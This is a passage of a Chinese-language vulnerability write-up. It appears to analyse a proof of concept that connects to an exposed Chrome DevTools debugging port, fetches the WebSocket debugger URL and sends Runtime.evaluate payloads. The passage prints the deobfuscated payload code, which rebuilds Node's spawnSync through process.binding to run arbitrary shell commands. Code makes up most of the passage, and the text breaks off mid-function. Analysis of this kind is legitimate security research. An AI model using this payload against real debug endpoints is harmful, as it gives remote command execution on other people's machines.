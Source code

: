 getWsLink函数通过访问http://127.0.0.1:13611/json  
拿到webSocketDebuggerUrl。之后这个url被用来进行websocket连接。  
```
async function getWsLink () {
const res = await fetch(`http://${IP}:${PORT}/json`)
const data = await res.json()
return data[0].webSocketDebuggerUrl
}
```  
  
建立websocket连接之后发送了4个数据包，这种数据包的协议是Chrome DevTools Protocol  
，大致结构是这样的：  
```
{  id: 1,  method: 'xxx',params: {} //可选}
```  
  
这种协议一般用来调试和优化Chromium, Chrome浏览器，查阅文档后找到了poc中使用的两种method的相关信息。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb7ELIvHVBPp1r47Sic1ib5FhqCvWXBkFcDhUzyB8T0uianNthYc5NZx0XDMREUasq7p56e8uvFrYBYuA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb7ELIvHVBPp1r47Sic1ib5FhqIau7ZRzx0JMuGupicRO01ciadUKaqQIgdDP5sURbEYnKOXF0OpqvM0xw/640?wx_fmt=png "")  
  
可以看到两种method都在Runtime Domain分类下面，Runtime Domain把Javascript runtime暴露在远程连接中，且命令执行副作用持久化。Runtime.enable  
使能执行环境、Runtime.evaluate  
用来执行具体命令。  
  
之后就需要知道发送的这几个expression里面有什么，把几个包中的expression展开、  
美化  
之后，可以看的更清晰一些：  
```
// id=2
spawn_sync = process.binding('spawn_sync');

normalizeSpawnArguments = function(c, b, a) { //解析参数，c:process, b:args, a:options
if (Array.isArray(b) ? b = b.slice(0) : (a = b, b = []), a === undefined && (a = {}), a = Object.assign({}, a), a.shell) {
const g = [c].concat(b).join(' ');
typeof a.shell === 'string' ? c = a.shell : c = '/bin/sh', b = ['-c', g];
    }
typeof a.argv0 === 'string' ? b.unshift(a.argv0) : b.unshift(c);
var d = a.env || process.env;
var e = [];
for (var f in d) e.push(f + '=' + d[f]); //加入环境变量
return {
file: c,
args: b,
options: a,
envPairs: e
    };
}

// id=3
spawnSync = function() { //主函数，用来执行命令
var d = normalizeSpawnArguments.apply(null, arguments); 
// arguments是函数的参数，https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Functions/arguments
var a = d.options;
var c;
if (a.file = d.file, a.args = d.args, a.envPairs = d.envPairs, a.stdio = [{
type: 'pipe',
readable: !0,
writable: !1
        }, {
type: 'pipe',
readable: !1,
```